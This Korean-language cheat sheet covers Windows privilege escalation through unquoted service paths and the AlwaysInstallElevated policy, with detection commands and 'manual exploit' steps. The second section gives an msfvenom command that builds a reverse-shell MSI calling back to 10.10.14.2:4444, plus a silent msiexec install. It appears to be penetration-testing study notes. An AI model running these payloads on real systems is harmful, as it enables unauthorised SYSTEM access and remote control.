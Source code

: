 
# 🪟 윈도우 권한 상승 시나리오별 정리

---

## 🧩 \[1] Unquoted Service Path

### ✅ 개념

- 서비스 실행 경로에 `" "`(따옴표)가 없고 경로에 공백이 있으면,
  시스템은 첫 공백까지 먼저 실행 시도 (즉, 내가 만든 `C:\Program.exe` 실행 가능)

### 🔍 탐지

```powershell
wmic service get name,pathname,startmode
```

### 🛠 시나리오

```none
PathName: C:\Program Files\Vuln Service\service.exe
```

### 💣 수동 익스플로잇

```powershell
# C:\Program.exe에 리버스쉘 넣기 → 서비스 재시작
```

---

## 🧩 \[2] AlwaysInstallElevated

### ✅ 개념

- 설치된 `.msi` 파일을 SYSTEM 권한으로 실행되게 설정해 둔 정책

### 🔍 탐지

```powershell
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```

> 두 키 모두 값이 1이면 취약

### 💣 수동 익스플로잇

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f msi > shell.msi
msiexec /quiet /qn /i shell.msi
```

---